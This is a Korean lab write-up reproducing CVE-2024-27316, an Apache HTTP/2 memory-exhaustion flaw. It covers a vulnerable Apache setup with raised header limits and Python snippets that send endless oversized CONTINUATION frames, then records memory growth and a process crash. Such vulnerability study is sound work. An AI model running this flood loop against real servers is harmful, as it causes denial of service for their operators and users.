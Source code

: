 ```yaml
---
layout: default
title: cve-2024-27316
category: "Apache"
nav_order: 1
parent: cve
---
```


# CVE-2024-27316
{: .no_toc }

Apache 서버 메모리 고갈 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 }
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 }

1. TOC
{:toc}

--- 

## 취약점 요약
HTTP/2 프로토콜에서 사용자가 제한을 초과하는 헤더를 지속적으로 전송할 때 nghttp2 라이브러리가 이를 임시로 메모리에 버퍼링하여 메모리 고갈을 초래할 수 있는 취약점

## 취약 대상
Apache HTTP Server 2.4.17 ~ 2.4.58 버전

## 공격 원리
- Apache Server에서 일정 크기를 초과하는 헤더에 대해 HTTP 413 응답을 생성 
- 초과된 헤더는 HPACK으로 압축된 후 nghttp2 라이브러리 내부의 메모리 버퍼에 임시로 저장
- 저장된 헤더는 다음 패킷이 처리될 때까지 유지
- 공격자는 이 취약점을 악용하여 서버에 지속적으로 초과된 길이의 HTTP/2 헤더를 전송 
- 서버는 메모리 소진으로 인해 서비스 중단 
![](../../assets/images/cve-2024-27316/attack.png)

---

## 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1)

## 환경 구축
Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
sudo apt install apache2=2.4.52*
sudo apt install libnghttp2-dev

sudo a2enmod ssl
sudo a2enmod http2
sudo a2ensite default-ssl
sudo ufw allow 80/tcp
sudo ufw allow 8080/tcp
sudo ufw allow 443/tcp

sudo systemctl restart apache2

sudo vi /etc/apache2/sites-available/default-ssl.conf

## default.ssl 설정 - [HTTP2, HTTP 1.1 프로토콜 사용]
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        SSLEngine on
        SSLCertificateFile /etc/ssl/certs/apache-selfsigned.crt
        SSLCertificateKeyFile /etc/ssl/private/apache-selfsigned.key

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
            SSLOptions +StdEnvVars
        </FilesMatch>
        <Directory /usr/lib/cgi-bin>
            SSLOptions +StdEnvVars
        </Directory>

        Protocols h2 http/1.1
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
</IfModule>

sudo systemctl restart apache2

sudo vi /etc/apache2/apache2.conf

## apache2.conf 설정 - 취약점 설정[requests 헤더 사이즈에 대한 limit를 늘림]
LimitRequestFieldSize 16384
LimitRequestFields 1000
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve-2024-27316/homepage.PNG)

## 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

## Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

```bash
htop -p $(pgrep apache2 | tr '\n' ',')
```

DoS 공격 실행 전, CPU, 메모리 사용량이 안정적으로 유지 (Mem : 475M)

![](../../assets/images/cve-2024-27316/Dos-before.png)

DoS 공격으로 인해 CPU, 메모리 사용량이 증가 (Mem : 504M)

![](../../assets/images/cve-2024-27316/Dos-after.png)

지속적인 공격이나 높은 부하로 인해 서버의 자원이 고갈되면 프로세스가 비정상적으로 종료
![](../../assets/images/cve-2024-27316/result.png)

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-27316
[Apache]: https://httpd.apache.org/security/vulnerabilities_24.html

[nvd api Docs]: https://nvd.nist.gov/developers/vulnerabilities

